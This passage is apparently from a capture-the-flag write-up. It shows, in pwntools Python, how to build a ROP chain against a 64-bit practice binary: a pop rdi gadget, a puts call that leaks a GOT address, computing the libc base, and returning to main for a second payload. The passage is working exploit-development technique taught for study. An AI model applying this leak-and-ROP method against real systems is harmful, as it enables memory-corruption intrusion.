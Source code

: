 In order to leak an address from the GOT, let's call the `puts` function with argument the address we want to leak. Since we are calling `puts`, we can be sure that GOT['puts'] will have an entry, so we'll just leak that.

```python
buf = cyclic_find('faaaaaaa', n=8) * 'a' # 40 bytes
buf += p64(e.plt['puts']) # Return address - call the puts function
buf += p64(e.got['puts']) # Argument to puts - GOT['puts']
```

There is a small mistake above though. In a 64-bit binary, arguments are passed into registers before the stack (see [here](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)). Therefore, we will need to first pop the argument (GOT['puts']) into $rdi, and only then can we call `puts`.

I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to search for gadgets within the binary that pop into $rdi

```sh
ROPgadget --binary ROPU | less
```

In the output, I found the following:

{% asset_img pop_rdi.png %}

So, by ropping to address 0x0000000000400783, we can pop the argument for `puts` into $rdi, and then call `puts`.

```python
pop_rdi = 0x0000000000400783 # pop rdi ; ret
buf = cyclic_find('faaaaaaa', n=8) * 'a' # 40 bytes
buf += p64(pop_rdi) # First call pop_rdi to pop got['puts'] into $rdi
buf += p64(e.got['puts'])
buf += p64(e.plt['puts']) # Now actually call puts
buf += p64(e.symbols['main']) # Run the binary again
p.sendline(buf)
```

Now, when the program runs, it will print "Enter the payload!", read in our ROP chain, call `printf` to echo back our input like usual, and finally call `puts` to print the value in GOT['puts'] to stdout. We can capture that output and use it to calculate the base address of libc as follows.

```python
# Receive the GOT address of puts
leaked_puts = u64(p.recv(6).ljust(8, '\x00'))
log.info('Address of puts: ' + hex(leaked_puts))

# Compute libc base
libc_base = leaked_puts - libc.symbols['puts']
```

In line two, I received 6 bytes from the process - which is the number of bytes of any address in a 64-bit binary. You might think it should be 8 bytes, but even 64-bit CPUs only use 48-bit addresses today. Before I can unpack the 6 bytes into an integer, I have to pad it with bytes until it is 64-bits long for the `u64` function to decode it.

Now that we have the libc base, we can jump to any gadget we want to in the libc file! But wait - we already sent our payload! Where do we send the new addresses in the libc file that we want to jump to? Well, we can send another payload by just running the binary again from `main`. The binary hasn't quit yet, so the offsets and base addresses will all remain the same.
